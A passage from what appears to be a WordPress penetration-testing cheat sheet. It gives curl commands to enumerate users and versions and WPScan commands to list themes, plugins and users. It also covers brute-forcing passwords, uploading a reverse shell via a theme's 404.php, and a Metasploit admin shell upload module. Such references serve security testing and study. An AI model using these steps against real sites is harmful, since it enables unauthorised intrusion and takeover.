 ```
curl -s -X GET https://wordpress.org/support/article/pages/ | grep http | grep -E '?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

**Active enumeration**



**Plugins and Themes**

You probably won't be able to find all the Plugins and Themes passible. In order to discover all of them, you will need to **actively Brute Force a list of Plugins and Themes** (hopefully for us there are automated tools that contains this lists).

**Users**

**ID Brute**

You get valid users from a WordPress site by Brute Forcing users IDs:

```
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

**wp-json**

You can also try to get information about the users by querying:

```
curl http://blog.example.com/wp-json/wp/v2/users
```

**Only information about the users that has this feature enable will be provided**.

Also note that **/wp-json/wp/v2/pages** could leak IP addresses.

**Login username enumeration**

When login in **`/wp-login.php`** the **message** is **different** is the indicated **username exists or not**.

**WPScan**

```
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
```